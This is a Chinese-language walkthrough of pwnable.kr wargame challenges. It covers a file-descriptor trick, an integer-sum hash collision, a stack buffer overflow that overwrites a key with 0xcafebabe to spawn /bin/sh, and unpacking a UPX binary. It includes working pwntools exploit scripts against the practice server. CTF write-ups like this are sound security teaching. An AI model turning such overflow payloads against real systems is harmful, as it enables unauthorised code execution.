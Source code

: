 # pwnable解题记录

[https://pwnable.kr](https://pwnable.kr)

[TOC]

## fd

知识点：

- 文件描述符fd，值及含义：
  - `0`——标准输入
  - `1`——标准输出
  - `2`——标准错误输出

`fd.c`文件如下：

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
char buf[32];
int main(int argc, char* argv[], char* envp[]){
        if(argc<2){
                printf("pass argv[1] a number\n");
                return 0;
        }
        int fd = atoi( argv[1] ) - 0x1234;
        int len = 0;
        len = read(fd, buf, 32);
        if(!strcmp("LETMEWIN\n", buf)){
                printf("good job :)\n");
                system("/bin/cat flag");
                exit(0);
        }
        printf("learn about Linux file IO\n");
        return 0;

}
```

可控参数`argv[1]`，第13行`if`条件需要`buf`值为`LETMEWIN\n`，所以需要在第10行使`fd = atoi( argv[1] ) - 0x1234 = 0`，如此便可在第12行向`buf`中输入内容`LETMEWIN\n`得到flag。![](./images/fd.jpg)

## collision

`col.c`文件如下：

```c
#include <stdio.h>
#include <string.h>
unsigned long hashcode = 0x21DD09EC;
unsigned long check_password(const char* p){
        int* ip = (int*)p;
        int i;
        int res=0;
        for(i=0; i<5; i++){
                res += ip[i];
        }
        return res;
}

int main(int argc, char* argv[]){
        if(argc<2){
                printf("usage : %s [passcode]\n", argv[0]);
                return 0;
        }
        if(strlen(argv[1]) != 20){
                printf("passcode length should be 20 bytes\n");
                return 0;
        }

        if(hashcode == check_password( argv[1] )){
                system("/bin/cat flag");
                return 0;
        }
        else
                printf("wrong passcode.\n");
        return 0;
}
```

需要传入一个20字节的参数`argv[1]`，然后该参数被强制转换为长度为5的整形数组（刚好一个整型4字节），数组5个元素之和要等于`0x21DD09EC`，即可获得flag。传参时注意使用小端序即可，脚本如下：

```python
#!/usr/bin/python
#coding:utf-8
from pwn import *

if __name__ == '__main__':
    #context(log_level='debug')
    s = ssh(host="pwnable.kr", user="col", password="guest", port=2222)
    payload = '\xc8\xce\xc5\x06' * 4 + '\xcc\xce\xc5\x06'
    p = s.process(argv=['./col', payload])
    print p.recv()
```

![](./images/col.jpg)

## bof

`bof.c`文件如下：

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

`func`函数要求传入参数`key=0xcafebabe`才能返回shell，但`main`函数中调用`func`时传的参数值并不符合要求。所以我们要通过`func`函数中的输入点来进行缓冲区溢出（buffer over flow/bof），将`key`的值覆盖为我们想要的值`0xcafebabe`。

首先使用`gdb`进行调试：

可以在`func`函数处下断点，运行至`func`函数后单步执行到其中的输入点`gets`函数处：

![](./images/bof_1.jpg)

在执行`gets`函数前，我们先生成一段探针

![](./images/bof_0.jpg)

然后在输入点传入这段探针：
![](./images/bof_2.jpg)

可以看到`gets`函数之后就是`cmp`

![](./images/bof_3.jpg)

地址`ebp+0x8`里的内容和`0xcafebabe`进行比较，然后跳转，这里也就对应`bof.c`中`func`函数的`if`条件句。

此时我们查看地址`ebp+0x8`中的内容：

![](./images/bof_4.jpg)

`0x41474141`即`AGAA`，注意端序，实际应该是`AAGA`。由此我们计算出偏移值为52，如上图。

接下来就可以写脚本了。

```python
#!/usr/bin/python
#coding:utf-8
from pwn import *

if __name__ == '__main__':
    context(log_level='debug')

    p = remote("pwnable.kr", 9000)
    payload = 'A' * 52 + p32(0xcafebabe)  # 偏移值之后接上我们需要覆写的内容
    p.sendline(payload)
    p.interactive()
```

![](./images/bof_5.jpg)

## flag

没有源码，依题目所说，这是个简单的逆向，`gdb`调试就能搞定。

下载文件后，直接`gdb`调试出现了点问题，后来发现是`upx`加壳程序，`upx -d flag`脱壳后就可以正常调试了。

在`main`函数中单步调试，在`malloc`之后两条指令，就可以看到，flag串地址被送到了寄存器`rdx`中，顺便也就看到了flag内容。

![](./images/flag.jpg)

